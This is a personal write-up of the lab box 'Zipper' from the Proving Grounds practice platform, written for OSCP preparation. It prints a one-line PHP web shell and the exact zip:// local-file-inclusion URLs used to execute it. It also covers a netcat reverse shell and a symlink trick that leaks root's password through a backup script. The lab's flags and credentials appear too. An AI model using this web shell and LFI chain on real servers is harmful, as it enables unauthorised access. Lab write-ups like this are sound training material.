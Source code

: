 ```yaml
---
Date: 2024-10-19
Platform: PG-Practice
Category: Linux
Difficulty: Hard
Status: In progress
IP: 192.168.111.229
Writeup: https://medium.com/@ardian.danny/oscp-practice-series-62-proving-grounds-zipper-b49a52ed8e38
---
```

# Zipper
This entire box was a shitshow from start to finish - I lost count of how many times I reverted it. Lessons learned? Probably to walk the fuck away if you've been at a box for more than 2 hours and don't have initial access. 

I spent nearly 5 hours just trying to get a reverse shell on this, not because I was doing anything wrong, but because the box was broken beyond belief. I resorted to ping to check if it was still up every few minutes because I didn't trust any of it, and the frustration only grew when I finally got a reverse shell but couldn't upgrade from a dumb shell to anything useful. 

At that point I really did step away, hang washing, ride my bike and have lunch, and soon after I came back I realised the "dumb shell" issue was the same as I'd had on an earlier box, and the solution was to upload use a different PHP reverse shell. But I spent literally hours testing different PHP uploads before enough reverts finally fixed whatever was going on behind the scenes, so I needed the break to clear my head and summon the will to start testing new PHP revshells.

Thankfully the very next PHP revshell I uploaded (Ivan Sincek's) worked perfectly, and I could move forward with privesc. After all the bullshit of trying to get initial access, identifying the bachup script didn't take long, and it only took some gentle guidance from the walkthrough to pickup what needed to be done to get `root`.

For all the success of last weekend, this box throughly and repeatedly sat me on my ass, testing my frustration to the absolute limit - not because I could figure out what to do, but because it was so broken I couldn't do even the most basic things without it going down and refusing connections. So going forward, I'm setting a 2hour timelimit on initial access, and another 2 hours for privesc - if I can't manage either of those, then pressing on will have diminishing returns as I become more frustrated and start to make basic mistakes.

## Improved skills
- Time management
- Walking away if initial access isn't achieved within 2hrs
## Used tools
- nmap
- python
- pspy32

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN zipper.nmap 192.168.111.229 -v
```

Enumerated open TCP ports:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Zipper
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---
# Enumeration
## Port 22 - SSH (OpenSSH 8.2p1)
No enumeration conducted
## Port 80 - HTTP (Apache 2.4.41)
- Navigated to `http://192.168.111.229:80` and identified online zip archiver `Zipper`
![[Pasted image 20241019093604.png]]
- Ran `gobuster dir -u http://192.168.111.229 -w //usr/share/dirb/wordlists/big.txt` to identify web directories
![[Pasted image 20241019094203.png]]
- Ran `gobuster dir -u http://192.168.111.229 -w //usr/share/dirb/wordlists/big.txt -x php,html,txt` to identify PHP, TXT & HTML files
![[Pasted image 20241019113329.png]]

---
# Exploitation
## Lcoal File Inclusion
- Created `simple_cmd.php` to include PHP command `<?php system($_REQUEST["cmd"]); ?>`
![[Pasted image 20241019114213.png]]
- Uploaded `simple_cmd.php` to Zipper and identified zip file save to `http://192.168.111.229/uploads/upload_1729300477.zip`
![[Pasted image 20241019114703.png]]
- Navigated to `192.168.111.229/index.php?file=zip://uploads/upload_1729300477.zip%23simple_cmd&cmd=whoami` to obtain RCE via zip wrapper LFI.
![[Pasted image 20241019114951.png]]
- Uploaded `reverseshell.php` with embedded PHP reverse shell, and identified file uploaded to `http://192.168.111.229/uploads/upload_1729314505.zip`
![[Pasted image 20241019154026.png]]
- Started netcat listener on port `1234` and navigated to `http://192.168.111.229/index.php?file=zip://uploads/upload_1729314505.zip%23reverseshell` to obtain reverse shell
![[Pasted image 20241019153949.png]]

---
# Privilege Escalation
## Local Enumeration
- Ran `find / -name local.txt -type f 2>/dev/null` then ran `cat /var/www/local.txt` to print flag `7638c3497498d0b4f3f12eabd89f3269`
![[Pasted image 20241019154220.png]]
- Ran `cat /etc/passwd` to identify any other users
![[Pasted image 20241019154401.png]]
- Ran `sudo -l` to identify `sudo` privileges - password required
![[Pasted image 20241019154453.png]]
- Ran `crontab -l` to identify any crontab data - none found
![[Pasted image 20241019154626.png]]
- Ran `ls /var/mail` to check available mail - none found
![[Pasted image 20241019154731.png]]
- Navigated to `/var/www/html/uploads` & ran `ls -lah` - identified interesting file `enox.zip --> /root/secret`
![[Pasted image 20241019160605.png]]
- Uploaded `pspy32` and ran `timeout 2m ./pspy32` to identify any processes or scripts running
![[Pasted image 20241019160635.png]]
- Identified script `/opt/backup.sh` running as `root`
![[Pasted image 20241019160813.png]]
- Ran `cat /opt/backup.sh` to identify
```
password=`cat /root/secret`
```
![[Pasted image 20241019161447.png]]
## Privilege Escalation vector
- Ran `touch root.txt` to create file in `/var/www/html/uplaods` and ran `ln -s /root/secret root.txt` to link file to `/root/secret`
![[Pasted image 20241019161918.png]]
- Waited for script to run, then ran `cat /opt/backups/backup.log` to view `/root/secret` appended to log file, and identified credentials `WildCardsGoingWild`
![[Pasted image 20241019162242.png]]
- Ran `su` to switch to `root` and entered credential `WildCardsGoingWild` for password
![[Pasted image 20241019162340.png]]
- Ran `cat /root/proof.txt` to print flag `a1c4888b41fc7697e214d03584c54dd5`
![[Pasted image 20241019162623.png]]
---
# Trophy & Loot
`local.txt` = `7638c3497498d0b4f3f12eabd89f3269`
`root.txt` = `a1c4888b41fc7697e214d03584c54dd5`